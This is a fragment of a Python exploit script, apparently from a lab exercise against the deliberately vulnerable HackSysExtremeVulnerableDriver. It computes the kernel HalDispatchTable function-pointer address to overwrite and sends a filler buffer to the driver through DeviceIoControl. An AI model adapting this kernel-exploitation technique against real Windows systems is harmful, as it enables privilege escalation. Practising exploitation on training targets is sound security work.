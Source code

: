 ```python
        sys.exit(1)
    print("[*] Userland HalDispatchTable Address: {}".format(hex(userland_hal)))

    # using FuzzySec's powershell script as guide for math: $HalDispatchTable = $HALUserLand.ToInt32() - $KernelHanle + $KernelBase
    kernel_hal = userland_hal - kern_handle + int(kernel_base, 16)
    printable_hal = hex(kernel_hal)
    if printable_hal[-1] == "L":
        printable_hal = printable_hal[:-1]
    print("[*] Kernel HalDispatchTable Address: {}".format(printable_hal))

    # we want hal + 0x4, that's the function pointer we want to overwrite
    target_hal = kernel_hal + 0x4
    print("[*] Target HalDispatchTable Function Pointer at: {}".format(hex(target_hal)[:-1]))

    return target_hal


def send_buf():
    hevd = kernel32.CreateFileA(
        "\\\\.\\HackSysExtremeVulnerableDriver", 
        0xC0000000, 
        0, 
        None, 
        0x3, 
        0, 
        None)
    
    if (not hevd) or (hevd == -1):
        print("[!] Failed to retrieve handle to device-driver with error-code: " + str(GetLastError()))
        sys.exit(1)
    else:
        print("[*] Successfully retrieved handle to device-driver: " + str(hevd))

    buf = "A" * 1000
    buf_length = len(buf)
    
    result = kernel32.DeviceIoControl(
        hevd,
        0x22200b,
        buf,
        buf_length,
        None,
        0,
        byref(c_ulong()),
        None
    )

    if result != 0:
        print("[*] Buffer sent to driver successfully.")
    else:
        print("[!] Payload failed. Last error: " + str(GetLastError()))

image_name, kernel_base = address_find()
hal_calc(image_name, kernel_base)
```
